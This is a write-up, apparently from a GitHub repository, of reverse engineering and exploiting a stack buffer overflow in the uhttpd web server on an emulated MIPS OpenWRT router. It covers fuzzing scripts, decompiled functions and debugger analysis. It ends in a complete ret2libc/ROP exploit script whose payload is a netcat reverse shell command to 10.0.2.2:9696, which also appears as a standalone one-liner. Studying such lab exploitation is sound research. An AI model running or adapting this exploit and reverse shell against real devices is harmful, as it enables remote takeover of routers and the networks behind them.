



In this write up, we will go over reverse engineering and exploiting a MIPS OpenWRT router in order to get RCE and a reverse shell. 

## Setup

Refer to [setup.md](https://github.com/Archan6el/MIPS-Router-Exploit-RCE-Writeup/blob/main/setup.md) 

## "Fuzzing"

The only prior info we had of the router was that it was running a vulnerable version of `uhttpd` webserver, and something about a buffer overflow. To test this, we created a simple Python script to send HTTP GET or POST requests. 

```python
import socket

HOST = '127.0.0.1'
PORT = 8080

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    print(f"Connected to {HOST}:{PORT}")

    request = "GET / HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\n"
    try:
        s.sendall(request.encode())
    except BrokenPipeError:
        print("Broken pipe while sending request")

    # Shutdown sending side to signal we won't send more
    s.shutdown(socket.SHUT_WR)

    response = b""
    while True:
        data = s.recv(4096)
        if not data:
            break
        response += data

    print(response.decode(errors='replace'))
```

The request went through alright, so now we have to find what causes a buffer overflow. At first, we assumed it was the body in a HTTP POST request, but that led nowhere. 

After experimenting with the HTTP header, we eventually found that specifying a path with a file name length longer than 140 bytes will result in an overflow, as evidenced by our script below, which uses a file name that consists of 140 A's. 

```python
import socket

HOST = '127.0.0.1'
PORT = 8080

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    print(f"Connected to {HOST}:{PORT}")

    request = f"POST {"A"*140} HTTP/1.1\r\nHost: localhost\r\n\r\n"
    try:
        s.sendall(request.encode())
    except BrokenPipeError:
        print("Broken pipe while sending request")

    # Shutdown sending side to signal we won't send more
    s.shutdown(socket.SHUT_WR)

    response = b""
    while True:
        data = s.recv(4096)
        if not data:
            break
        response += data

    print(response.decode(errors='replace'))
```


Now we can start making an exploit

## Finding where the Buffer Overflow Occurs

Before we start making the exploit though, let's try to find and understand where and why this error is occuring. In the above screenshot, we can see that we are at `0x403648` when the segfault occurs. We can actually find this exact area in the code through Ghidra. This is due to the fact that PIE is disabled on the `uhttpd` binary, which as mentioned before, is the program that contains the buffer overflow vulnerability. 

Mounting the image that QEMU is using, `root.ext4`, with `sudo mount -o loop root.ext4 /mnt/rootfs`, we can copy out the `uhttpd` binary.

Loading it into Ghidra, if we set the base address correctly by lining it up with what we find if we run `info proc mappings` in gdb, we can go to `0x403648`


We find ourselves at a function that seems to be parsing the HTTP header line, so this looks promising. The function is located at `0x0040358c` and I name it `parse_http_header_line`. 

```c

undefined4 parse_http_header_line(int param_1,char *param_2)

{
  char cVar1;
  char *pcVar2;
  int iVar3;
  char *pcVar4;
  int iVar5;
  undefined4 uVar6;
  size_t sVar7;
  ulong uVar8;
  uint *puVar9;
  uint uVar10;
  uint uVar11;
  char *pcVar12;
  int iVar13;
  char *local_40 [2];
  uint local_38;
  char *local_34;
  char *local_30;
  char *local_2c;
  
  pcVar2 = strstr(param_2,"\r\n");
  if (pcVar2 == (char *)0x0) {
    return 0;
  }
  *pcVar2 = '\0';
  if (*param_2 == '\0') {
    uloop_timeout_cancel(param_1 + 0x174);
    *(undefined4 *)(param_1 + 400) = 2;
    if (((DAT_0041b400 == 0) || (iVar3 = FUN_0040472c(param_1 + 0x1cc), iVar3 == 0)) ||
       (iVar3 = FUN_0040472c(param_1 + 0x1b8), iVar3 != 0)) {
      if (((*(char *)(param_1 + 0x194) == '\0') && (DAT_0041b404 != 0)) &&
         (iVar3 = FUN_00402b48(*(undefined *)(param_1 + 0x1b8)), iVar3 != -1)) {
        puVar9 = *(uint **)(param_1 + 0x1e0);
        if (puVar9 == (uint *)0x0) {
          uVar11 = 0;
          puVar9 = (uint *)0x0;
        }
        else {
          uVar11 = (*puVar9 & 0xffffff) - 4;
          puVar9 = puVar9 + 1;
        }
        local_38 = 0xffffff;
        local_34 = "host";
        pcVar12 = (char *)0x0;
        iVar13 = 0;
        local_30 = "URL";
        for (; 3 < uVar11; uVar11 = uVar11 - uVar10) {
          uVar10 = (*puVar9 & local_38) + 3 & 0xfffffffc;
          if ((uVar11 < uVar10) || (uVar10 < 4)) break;
          local_2c = (char *)((int)puVar9 + 6);
          iVar5 = strcmp((char *)((int)puVar9 + 6),local_34);
          if (iVar5 == 0) {
            pcVar12 = (char *)FUN_00402c10(puVar9);
          }
          iVar5 = strcmp((char *)((int)puVar9 + 6),local_30);
          if (iVar5 == 0) {
            iVar13 = FUN_00402c10(puVar9);
          }
          if ((iVar13 != 0) && (pcVar12 != (char *)0x0)) goto LAB_00403788;
          puVar9 = (uint *)((int)puVar9 + uVar10);
        }
        if ((iVar13 != 0) && (pcVar12 != (char *)0x0)) {
LAB_00403788:
          pcVar4 = strchr(pcVar12,0x5d);
          if (pcVar4 == (char *)0x0) {
            pcVar4 = strchr(pcVar12,0x3a);
            if (pcVar4 != (char *)0x0) {
              *pcVar4 = '\0';
            }
          }
          else {
            pcVar4[1] = '\0';
          }
          *(undefined *)(param_1 + 0x1b2) = 1;
          *(undefined *)(param_1 + 0x1b1) = 1;
          send_http_response_headers(param_1,0x133,"Temporary Redirect");
          if (iVar3 == 0x1bb) {
            ustream_printf(*(undefined4 *)(param_1 + 0x10),"Location: https://%s%s\r\n\r\n",pcVar12,
                           iVar13);
          }
          else {
            ustream_printf(*(undefined4 *)(param_1 + 0x10),"Location: https://%s:%d%s\r\n\r\n",
                           pcVar12,iVar3,iVar13);
          }
          FUN_00402f74(param_1);
          goto LAB_00403648;
        }
      }
      if (*(char *)(param_1 + 0x1b0) != '\0') {
        ustream_printf(*(undefined4 *)(param_1 + 0x10),"HTTP/1.1 100 Continue\r\n\r\n");
      }
      if ((*(int *)(param_1 + 0x1a4) == 3) ||
         ((*(int *)(param_1 + 0x1a4) == 7 && (*(int *)(param_1 + 0x19c) == 1)))) {
        *(undefined *)(param_1 + 0x1b1) = 1;
      }
      resolve_file_and_serve(param_1);
    }
    else {
      FUN_00403038(param_1,0x193,"Forbidden",
                   "Rejected request from RFC1918 IP to public server address");
    }
    goto LAB_00403648;
  }
  pcVar4 = (char *)FUN_004046d4(param_2);
  pcVar12 = param_2;
  if (pcVar4 == (char *)0x0) {
    uVar6 = 3;
  }
  else {
    while( true ) {
      iVar3 = (int)*pcVar12;
      if (iVar3 == 0) break;
      if (iVar3 - 0x41U < 0x1a) {
        iVar3 = tolower(iVar3);
        *pcVar12 = (char)iVar3;
      }
      pcVar12 = pcVar12 + 1;
    }
    iVar3 = strcmp(param_2,"expect");
    if (iVar3 == 0) {
      iVar3 = strcasecmp(pcVar4,"100-continue");
      if (iVar3 != 0) {
        pcVar12 = "Precondition Failed";
        uVar6 = 0x19c;
LAB_004039a8:
        FUN_004030e4(param_1,uVar6,pcVar12);
        goto LAB_00403648;
      }
      *(undefined *)(param_1 + 0x1b0) = 1;
    }
    else {
      iVar3 = strcmp(param_2,"content-length");
      if (iVar3 == 0) {
        uVar8 = strtoul(pcVar4,local_40,0);
        *(ulong *)(param_1 + 0x1ac) = uVar8;
        if (((local_40[0] != (char *)0x0) && (*local_40[0] != '\0')) || ((int)uVar8 < 0)) {
          pcVar12 = "Bad Request";
          uVar6 = 400;
          goto LAB_004039a8;
        }
      }
      else {
        iVar3 = strcmp(param_2,"transfer-encoding");
        if (iVar3 == 0) {
          iVar3 = strcmp(pcVar4,"chunked");
          if (iVar3 == 0) {
            *(undefined *)(param_1 + 0x1b3) = 1;
          }
        }
        else {
          iVar3 = strcmp(param_2,"connection");
          if (iVar3 == 0) {
            iVar3 = strcasecmp(pcVar4,"close");
            if (iVar3 == 0) {
              *(undefined *)(param_1 + 0x1b1) = 1;
            }
          }
          else {
            iVar3 = strcmp(param_2,"user-agent");
            if (iVar3 == 0) {
              pcVar12 = strstr(pcVar4,"Opera");
              uVar6 = 6;
              if (pcVar12 == (char *)0x0) {
                pcVar12 = strstr(pcVar4,"MSIE ");
                if (pcVar12 == (char *)0x0) {
                  pcVar12 = strstr(pcVar4,"Chrome/");
                  uVar6 = 2;
                  if (pcVar12 == (char *)0x0) {
                    pcVar12 = strstr(pcVar4,"Safari/");
                    if (pcVar12 != (char *)0x0) {
                      pcVar12 = strstr(pcVar4,"Mac OS X");
                      uVar6 = 3;
                      if (pcVar12 != (char *)0x0) goto LAB_00403aac;
                    }
                    pcVar12 = strstr(pcVar4,"Gecko/");
                    uVar6 = 1;
                    if (pcVar12 == (char *)0x0) {
                      pcVar12 = strstr(pcVar4,"Konqueror");
                      if (pcVar12 == (char *)0x0) goto LAB_00403968;
                      uVar6 = 5;
                    }
                  }
                }
                else {
                  *(undefined4 *)(param_1 + 0x1a4) = 8;
                  cVar1 = pcVar12[5];
                  if ((((cVar1 == '\0') || (pcVar12[6] != '.')) || (cVar1 < '4')) ||
                     (('5' < cVar1 &&
                      ((cVar1 != '6' || (pcVar12 = strstr(pcVar12,"SV1"), pcVar12 != (char *)0x0))))
                     )) goto LAB_00403968;
                  uVar6 = 7;
                }
              }
LAB_00403aac:
              *(undefined4 *)(param_1 + 0x1a4) = uVar6;
            }
          }
        }
      }
    }
LAB_00403968:
    sVar7 = strlen(pcVar4);
    blobmsg_add_field(param_1 + 0x1e0,3,param_2,pcVar4,sVar7 + 1);
    uVar6 = 1;
  }
  *(undefined4 *)(param_1 + 400) = uVar6;
LAB_00403648:
  ustream_consume(*(undefined4 *)(param_1 + 0x10),pcVar2 + (2 - (int)param_2));
  if (*(int *)(param_1 + 400) == 2) {
    FUN_00403364(param_1);
    return 0;
  }
  return 1;
}
```

There's nothing here that immediately stands out, so the function that the overflow occurs in is likely called from within this function. 

`parse_http_header_line` calls many functions, so there's a lot to go through. Instead, I just go to the Data Type Manager and try to search for char arrays, since that's likely the buffer that is being overflowed. 


There's an interesting char array that I find, `acStack_b0`, which leads us to a new function. 

After analyzing, I name it `resolve_file_and_serve` based on what the function seems to do. The function is located at `0x00406068`. 

What is particularly interesting is the buffer of size 128, and the many calls to `strcpy` that happens in this function. If we check its references, it's only called by one other function, which is `parse_http_header_line`. This could be where the vulnerability occurs...

```c
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void resolve_file_and_serve(int param_1)

{
  bool bVar1;
  int iVar2;
  size_t sVar3;
  char *pcVar4;
  char *pcVar5;
  size_t sVar6;
  char *__src;
  undefined4 *puVar7;
  size_t sVar8;
  undefined *puVar9;
  undefined auStack_d0 [24];
  char acStack_b8 [8];
  char acStack_b0 [128];
  char *local_30 [3];
  
  puVar9 = auStack_d0;
  local_30[0] = (char *)FUN_004048c0(*(int *)(param_1 + 0x1e0) + 4);
  blob_buf_init(param_1 + 0x1f0,0);
  pcVar4 = local_30[0];
  puVar7 = DAT_0041b42c;
  pcVar5 = pcVar4;
  if ((undefined4 **)DAT_0041b42c != &DAT_0041b42c) {
    do {
      iVar2 = FUN_00404644(puVar7[2],pcVar4);
      if (iVar2 != 0) {
        sVar6 = 0;
        if ((char *)puVar7[3] != (char *)0x0) {
          sVar6 = strlen((char *)puVar7[3]);
        }
        sVar3 = strlen(pcVar4);
        sVar8 = DAT_0041b424;
        if ((int)DAT_0041b424 < (int)sVar6) {
          sVar8 = sVar6;
        }
        sVar8 = sVar8 + sVar3 + 1;
        if ((int)_DAT_0041b454 < (int)sVar8) {
          DAT_0041b450 = (char *)realloc(DAT_0041b450,sVar8);
          _DAT_0041b454 = sVar8;
        }
        pcVar5 = DAT_0041b450;
        *DAT_0041b450 = '\0';
        __src = (char *)puVar7[3];
        if (((char *)puVar7[3] != (char *)0x0) ||
           (__src = DAT_0041b3e0, DAT_0041b3e0 != (char *)0x0)) {
          strcpy(pcVar5,__src);
        }
        strcat(pcVar5,pcVar4);
        break;
      }
      puVar7 = (undefined4 *)*puVar7;
    } while ((undefined4 **)puVar7 != &DAT_0041b42c);
  }
  local_30[0] = pcVar5;
  FUN_00408198(param_1,local_30,0);
  if (local_30[0] != (char *)0x0) {
    *(undefined4 *)(param_1 + 0x1a8) = 200;
    iVar2 = FUN_00404914(local_30[0],0);
    if (iVar2 == 0) {
      iVar2 = FUN_0040592c(param_1,local_30[0],local_30[0],0);
      if (iVar2 == 0) {
        iVar2 = FUN_00408198(param_1,local_30,1);
        if (iVar2 != 0) {
          if (local_30[0] == (char *)0x0) {
            return;
          }
          FUN_00408198(param_1,local_30,0);
          iVar2 = FUN_0040592c(param_1,local_30[0]);
          if (iVar2 != 0) {
            return;
          }
        }
        pcVar5 = DAT_0041b3dc;
        bVar1 = DAT_0041b3dc != (char *)0x0;
        *(undefined4 *)(param_1 + 0x1a8) = 0x194;
        if (bVar1) {
          sVar6 = strlen(pcVar5);
          iVar2 = -(sVar6 + 8 & 0xfffffff8);
          puVar9 = auStack_d0 + iVar2;
          strcpy(acStack_b8 + iVar2,pcVar5);
          iVar2 = FUN_0040592c(param_1,acStack_b8 + iVar2);
          if (iVar2 != 0) {
            return;
          }
        }
        pcVar4 = (char *)FUN_004047a8(local_30[0]);
        pcVar5 = pcVar4;
        if (pcVar4 == (char *)0x0) {
          pcVar5 = "";
        }
        *(char **)(puVar9 + 0x10) = pcVar5;
        FUN_00403038(param_1,0x194,"Not Found","The requested URL %s was not found on this server.")
        ;
        strcpy(acStack_b0,local_30[0]);
        dprintf(2,"%s\n",acStack_b0);
        if (pcVar4 != (char *)0x0) {
          free(pcVar4);
        }
      }
    }
    else {
      FUN_00404cdc(param_1,iVar2);
    }
  }
  return;
}
```

`resolve_file_and_serve` also contains some of the output we see `uhttpd` give us after the overflow, specifically at the line `FUN_00403038(param_1,0x194,"Not Found","The requested URL %s was not found on this server.")`


Well, let's test to see if this is indeed where the buffer overflow is occurring. 

I set breakpoints in gdb at the call to `resolve_file_and_serve` in `parse_http_header_line`, as well as at the return from within `resolve_file_and_serve`. 

Let's walk through it. 

If we send our HTTP request with a file name that will cause an overflow, we hit our breakpoint for the call to `resolve_file_and_serve` from within `parse_http_header_line`, and we can step into it. 



The function executes, and hits the return, which will return us back to `parse_http_header_line`



From here, it will then segfault


This seems to be some pretty good evidence, but for a further check, I set a breakpoint at the `strcpy` call that has the 128 byte char buffer as the destination at the line, `strcpy(acStack_b0,local_30[0]);`

It **does** stop at our breakpoint!

In MIPS, `a0` and `a1` contain the first and second parameters respectively. Since we hit our breakpoint, we can see what is in `acStack_b0` (which is the destination) and `local_30[0]` (which is the source) at the time of the call. 


If we look at the contents of `a1`, which is `local_30[0]` / the source, we can see our path input!


This is unsafely being copied into our 128 byte char buffer at `acStack_b0`, which is likely causing the buffer overflow. 

Okay, now that we have a better understanding of what's happening, we can finally start working on the exploit. 

## The Failed Rabbit Holes (ret2shellcode & ret2heap)

Since ASLR and PIE are disabled on the router, there are many interesting things that we can do. However, there were 2 initial paths we took that led nowhere. 

First of all, using gdb, we are able to find the stack address of our buffer, which is at `0x7fffdb2c`. We found this by inspecting memory around the value of the `$sp` (Stack Pointer) register. A cleaner address to use is `0x7fffdb30`




Great right? We can just write our shellcode to the stack buffer and influence the flow control of the program to return to our buffer to execute said shellcode (ret2shellcode). 

There's just one issue though. The overflow is through HTTP requests, which do not allow raw bytes, which is what our shellcode would be. We would have to URL encode our data. 

Long story short, this won't work. There are 2 big problems. Firstly, in the **stack buffer**, it is storing the URL *encoded* payload, so jumping there is useless. 

Where is the URL *decoded* payload though? 

In Ghidra, we can find two functions, one that I name `parse_path_request`, located at `0x0040540c` and another that I call `url_decode`, located at `0x004042a0`. These names are based on what the functions appear to do. 

```c
undefined4 * parse_path_request(int param_1,char *param_2)

{
  char cVar1;
  char cVar2;
  size_t __n;
  char *pcVar3;
  char *pcVar4;
  int iVar5;
  char *pcVar6;
  char *pcVar7;
  size_t sVar8;
  char *pcVar9;
  undefined **ppuVar10;
  stat sStack_e8;
  int local_48;
  code *local_44;
  uint local_40;
  code *local_3c;
  char *local_38;
  code *local_34;
  char *local_30;
  
  pcVar9 = DAT_0041b3d0;
  __n = strlen(DAT_0041b3d0);
  local_34 = json_script_init;
  if (param_2 == (char *)0x0) {
    return (undefined4 *)0x0;
  }
  memset(&DAT_0041e458,0,0xc0);
  DAT_0041d458 = 0;
  DAT_0041c458 = '\0';
  strcpy(&DAT_0041e720,pcVar9);
  pcVar3 = strchr(param_2,0x3f);
  local_3c = json_script_init;
  local_44 = json_script_init;
  if (pcVar3 == (char *)0x0) {
    sVar8 = strlen(param_2);
  }
  else {
    if (pcVar3[1] != '\0') {
      DAT_0041e468 = &DAT_0041b458;
      snprintf(&DAT_0041b458,0x1000,"%s",pcVar3 + 1);
    }
    sVar8 = (int)pcVar3 - (int)param_2;
    if (pcVar3 <= param_2) goto LAB_0040552c;
  }
  iVar5 = url_decode(&DAT_0041e720 + __n,0xfff - __n,param_2,sVar8);
  if (iVar5 < 0) {
    return (undefined4 *)0x0;
  }
LAB_0040552c:
  sVar8 = strlen((char *)(local_44 + -0x18e0));
  if (sVar8 == 0) {
    local_40 = 0;
  }
  else {
    local_40 = (uint)((&DAT_0041e71f)[sVar8] == '/');
  }
  pcVar3 = &DAT_0041e720 + sVar8;
  local_30 = &DAT_0041f71e;
  local_38 = &DAT_0041d459;
LAB_00405560:
  local_48 = (int)*pcVar3;
  if ((local_48 == 0) || (local_48 == 0x2f)) {
    *pcVar3 = '\0';
    if (*(int *)(local_34 + -0x4c0c) == 0) {
      pcVar4 = &DAT_0041d458;
      pcVar6 = &DAT_0041d458;
      pcVar7 = &DAT_0041e720;
LAB_004056c0:
      cVar1 = *pcVar7;
      if ((cVar1 == '\0') || (local_30 <= pcVar7)) goto LAB_004056e4;
      if (cVar1 == '/') {
        if (pcVar7[1] == '/') {
          pcVar7 = pcVar7 + 1;
          goto LAB_004056c0;
        }
        if (pcVar7[1] != '.') goto LAB_00405784;
        cVar2 = pcVar7[2];
        if ((cVar2 == '/') || (cVar2 == '\0')) {
          pcVar7 = pcVar7 + 2;
          goto LAB_004056c0;
        }
        if ((cVar2 == '.') && ((pcVar7[3] == '/' || (pcVar7[3] == '\0')))) {
          do {
            if (pcVar6 < &DAT_0041d459) break;
            pcVar6 = pcVar6 + -1;
          } while (*pcVar6 != '/');
          pcVar7 = pcVar7 + 3;
          goto LAB_004056c0;
        }
      }
LAB_00405784:
      *pcVar6 = cVar1;
      pcVar7 = pcVar7 + 1;
      pcVar6 = pcVar6 + 1;
      goto LAB_004056c0;
    }
    pcVar4 = realpath((char *)(local_44 + -0x18e0),&DAT_0041d458);
    goto LAB_004055ac;
  }
  goto LAB_004057c4;
LAB_004056e4:
  if ((local_38 < pcVar6) && (pcVar6[-1] == '/')) {
    pcVar6 = pcVar6 + -1;
  }
  else if (pcVar6 == &DAT_0041d458) {
    DAT_0041d458 = 0x2f;
    *local_38 = '\0';
    goto LAB_004055ac;
  }
  *pcVar6 = '\0';
  pcVar4 = &DAT_0041d458;
LAB_004055ac:
  *pcVar3 = (char)local_48;
  if ((pcVar4 != (char *)0x0) && (iVar5 = stat(&DAT_0041d458,(stat *)&DAT_0041e470), iVar5 == 0)) {
    snprintf(&DAT_0041c458,0x1000,"%s",&DAT_0041e720 + sVar8);
    goto LAB_004055e8;
  }
LAB_004057c4:
  sVar8 = sVar8 - 1;
  pcVar3 = pcVar3 + -1;
  if (sVar8 == 0xffffffff) goto LAB_004055e8;
  goto LAB_00405560;
LAB_004055e8:
  iVar5 = strncmp(&DAT_0041d458,pcVar9,__n);
  if ((iVar5 == 0) && (((&DAT_0041d458)[__n] == '\0' || ((&DAT_0041d458)[__n] == '/')))) {
    if ((DAT_0041e488 & 0x8000) != 0) {
      *(char **)(local_3c + -0x1ba8) = pcVar9;
      DAT_0041e45c = &DAT_0041d458;
      if (DAT_0041c458 != '\0') {
        DAT_0041e460 = &DAT_0041d458 + __n;
        DAT_0041e464 = &DAT_0041c458;
        return &DAT_0041e458;
      }
      DAT_0041e460 = &DAT_0041d458 + __n;
      DAT_0041e464 = (undefined1 *)0x0;
      return &DAT_0041e458;
    }
    if (((DAT_0041e488 & 0x4000) != 0) && (DAT_0041c458 == '\0')) {
      sVar8 = strlen(&DAT_0041d458);
      pcVar3 = &DAT_0041d458 + sVar8;
      if ((&DAT_0041d457)[sVar8] != '/') {
        *pcVar3 = '/';
        (&DAT_0041d459)[sVar8] = 0;
        pcVar3 = &DAT_0041d459 + sVar8;
      }
      ppuVar10 = (undefined **)PTR_LOOP_0041b240;
      if (local_40 == 0) {
        send_http_response_headers(param_1,0x12e,"Found");
        iVar5 = FUN_00403ff0(param_1);
        if (iVar5 == 0) {
          ustream_printf(*(undefined4 *)(param_1 + 0x10),"Content-Length: 0\r\n");
        }
        if (DAT_0041e468 == (char *)0x0) {
          pcVar9 = "";
          pcVar3 = pcVar9;
        }
        else {
          pcVar9 = DAT_0041e468;
          pcVar3 = "?";
        }
        ustream_printf(*(undefined4 *)(param_1 + 0x10),"Location: %s%s%s\r\n\r\n",
                       &DAT_0041d458 + __n,pcVar3,pcVar9);
        FUN_00402f74(param_1);
        DAT_0041e46c = 1;
        return &DAT_0041e458;
      }
      do {
        if (ppuVar10 == &PTR_LOOP_0041b240) {
LAB_00405904:
          *(char **)(local_3c + -0x1ba8) = pcVar9;
          DAT_0041e45c = &DAT_0041d458;
          DAT_0041e460 = &DAT_0041d458 + __n;
          return &DAT_0041e458;
        }
        strcpy(pcVar3,ppuVar10[2]);
        iVar5 = stat(&DAT_0041d458,&sStack_e8);
        if ((iVar5 == 0) && ((sStack_e8.st_uid & 0x8000) != 0)) {
          memcpy(&DAT_0041e470,&sStack_e8,0xa0);
          goto LAB_00405904;
        }
        *pcVar3 = '\0';
        ppuVar10 = (undefined **)*ppuVar10;
      } while( true );
    }
  }
  return (undefined4 *)0x0;
}

```

```c

int url_decode(int param_1,int param_2,int param_3,int param_4)

{
  int iVar1;
  char cVar2;
  uint uVar3;
  char cVar4;
  int iVar5;
  int iVar6;
  int iVar7;
  
  iVar7 = 0;
  iVar5 = 0;
  do {
    if ((param_4 <= iVar5) || (param_2 <= iVar7)) {
      *(undefined *)(param_1 + iVar7) = 0;
      if (iVar5 != param_4) {
        iVar7 = -1;
      }
      return iVar7;
    }
    if (*(char *)(param_3 + iVar5) == '%') {
      iVar6 = iVar5 + 2;
      if (param_4 <= iVar6) {
        return -2;
      }
      uVar3 = (uint)*(char *)(param_3 + iVar5 + 1);
      iVar1 = isxdigit(uVar3);
      if (iVar1 == 0) {
        return -2;
      }
      cVar2 = *(char *)(param_3 + iVar5 + 2);
      iVar1 = (int)cVar2;
      iVar5 = isxdigit(iVar1);
      if (iVar5 == 0) {
        return -2;
      }
      if ((int)uVar3 < 0x3a) {
        cVar4 = (char)((uVar3 & 0xf) << 4);
      }
      else {
        if ((int)uVar3 < 0x47) {
          uVar3 = uVar3 - 0x37;
        }
        else {
          uVar3 = uVar3 - 0x57;
        }
        cVar4 = (char)((uVar3 & 0xf) << 4);
      }
      if (iVar1 < 0x3a) {
        cVar2 = cVar2 + -0x30;
      }
      else if (iVar1 < 0x47) {
        cVar2 = cVar2 + -0x37;
      }
      else {
        cVar2 = cVar2 + -0x57;
      }
      *(char *)(param_1 + iVar7) = cVar4 + cVar2;
    }
    else {
      *(char *)(param_1 + iVar7) = *(char *)(param_3 + iVar5);
      iVar6 = iVar5;
    }
    iVar5 = iVar6 + 1;
    iVar7 = iVar7 + 1;
  } while( true );
}

```

Looking at the `parse_path_request` function, we can look at the call to the `url_decode` function. 

`iVar5 = url_decode(&DAT_0041e720 + __n,0xfff - __n,param_2,sVar8);`

`DAT_0041e720` is a **heap buffer** stored at `0x0041e720`. It seems that after calling this function, the URL decoded path is put into `DAT_0041e720`. If we inspect the memory there in gdb, we can indeed find our URL decoded payload! So we can just jump there instead right? 

Unfortunately no, since `0x0041e720` begins with `00`, it is treated as a null byte, which both messes up the HTTP request and messes up the actual payload likely due to `strcpy`. 

So `ret2shellcode` and `ret2heap` both do not work. 

We have to find something else

## The actual RCE (ret2libc and ROP)

In gdb, we can run `info proc mappings` and see that `libc` is attached. 


So we can try to ret2libc. Where is system though? Again, we can use Ghidra for this to bypass having to deal with weird MIPS architecture and libc version stuff when trying to find system. Using our mounted `root.ext4`, we can also copy out the `/lib/libc.so` file. 

Loading this into Ghidra, and setting the base address to `0x77f50000` like we saw in gdb


We can just find system in here and get the exact address. In our case, it turns out to be `0x77fae424`


Okay great, we have system, but now we have to give it a parameter. This is actually realtively straight forward since we can basically write whatever we want to the stack due to the buffer overflow, so we can literally just write the parameter we want to use by adding it to our final payload. 

In a real world scenario, you would not have shell access to the router, so `/bin/sh` isn't good enough. We can try a reverse shell though. 

Running the line `rm /tmp/p ; mkfifo /tmp/p; nc 10.0.2.2 9696 < /tmp/p | /bin/sh > /tmp/p 2>&1` on the router and having a listener, `nc -nvlp 9696` on our host machine, we do indeed get a reverse shell. So we can use this as our parameter to system. 

> We start the command with deleting /tmp/p because if that file is present, the reverse shell does not execute sometimes

However, since this will be part of our payload, we can't have any spaces, since they are interpreted as null bytes, which as mentioned before, breaks the payload. Thankfully, running the following command on the router works, which has `${IFS}` in place of spaces. 

`rm${IFS}/tmp/p;mkfifo${IFS}/tmp/p;nc${IFS}10.0.2.2${IFS}9696</tmp/p|/bin/sh>/tmp/p`

So we have system, we have the parameter, but now we need a gadget to set up the registers for us. 

ROPgadget thankfully supports MIPS and can help us find gadgets to use by running

`ROPgadget --binary libc.so --mipsrop registers`

> Note that I am trying to find gadgets in libc and not in our actual binary, since all the addresses in the actual binary begin with a null byte, which would find us having the same issue as ret2heap

We want a gadget that loads the register `$a0`, which in MIPS, is where the first parameter is loaded. We also want a gadget that executes / returns to a function, which unlike in x86 which is `ret`, MIPS just jumps, so it'd be some variation of a jump instruction. 

We also want it to use any `s(n)` register, since due to the stack overflow, we have complete control over them.

ROPgadget helps us find a pretty good gadget to try:

`0x000197a0 : lw $ra, 0xa4($sp) ; lw $t9, 0xc($s0) ; jalr $t9 ; lw $a0, 0($s0)`

Walking through this, it loads a word (4 bytes) at `($sp + 0xa4)` into the `$ra` register. It loads a word (or address) at `($s0 + 0cx)` into the register `$t9`, and then it jumps, or executes, the function at that address. It also loads a word from memory at a pointer at `$s0` into `$a0`

This is huge. It loads an address of a function of our choosing into `$t9` and executes it, and also uses a parameter of our choosing on the stack, which should be pointed to by an address at `$s0`. Basically, all we have to do is organize the stack correctly. 

There is one thing you might be worried about. Does the gadget not load the parameter into `$s0` *after* it jumps to / executes the function at `$t9`? Or in other words, isn't the parameter not yet ready for the function call?

Since this is MIPS, this actually *isn't* a problem. This is due to MIPS' [delay slot](https://en.wikipedia.org/wiki/Delay_slot) feature. It's essentially a feature in which a instruction slot is executed without the effects of a preceding instruction. So in our gadget, `lw $a0, 0($s0)` is a delay slot. So our parameter actually *will* be ready. 

With all of this in mind, it's time to write our exploit script. Our payload is essentially going to be just the file path part of our HTTP request

```python
from pwn import *
import socket

HOST = '127.0.0.1'
PORT = 8080

def send_long_path(length, filler, ret_addr):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))

        # long_path needs to be 176 total in order to overflow
        long_path =  f"{filler}".encode() * (length-32) + p32(0x7fffdbe0, endian="big") + b"B" * 28 + ret_addr + p32(0x7fffdbf4, endian="big") + b"C" * 8 + p32(0x77fae424, endian="big") + b"C"*4 + b"rm${IFS}/tmp/p;mkfifo${IFS}/tmp/p;nc${IFS}10.0.2.2${IFS}9696</tmp/p|/bin/sh>/tmp/p"

        print(f"Path: {long_path}")

        print(f"Length of path: {len(long_path)}")
        request = b"POST " + long_path + b" HTTP/1.1\r\nHost: " + HOST.encode() +  b"\r\nContent-Length: 1000\r\n\r\n"

        print(f"Request: {request}")

        try:
            s.sendall(request)
            s.shutdown(socket.SHUT_WR)
            response = b""
            while True:
                data = s.recv(4096)
                if not data:
                    break
                response += data
            print(f"Sent path length: {length}, Response length: {len(response)}")
        except BrokenPipeError:
            print(f"Broken pipe or connection closed at path length: {length}")

# 0x7fffdb2c <- Stack buffer address
# 0x7fffdb30 <- Better stack buffer address
# 0x77fae424 <- SYSTEM
# 0x7fffdbe0 <- stack pointer
# 0x41e724 <- URL Decoded payload heap buffer address (has a null byte so can't use)

# Gadget in libc.so
# 0x000197a0 : lw $ra, 0xa4($sp) ; lw $t9, 0xc($s0) ; jalr $t9 ; lw $a0, 0($s0)
# Actual address of this is 0x77f697a0

ret_addr = p32(0x77f697a0, endian="big")

overflow_len = 172 

size = overflow_len

send_long_path(size, "A", ret_addr)
```

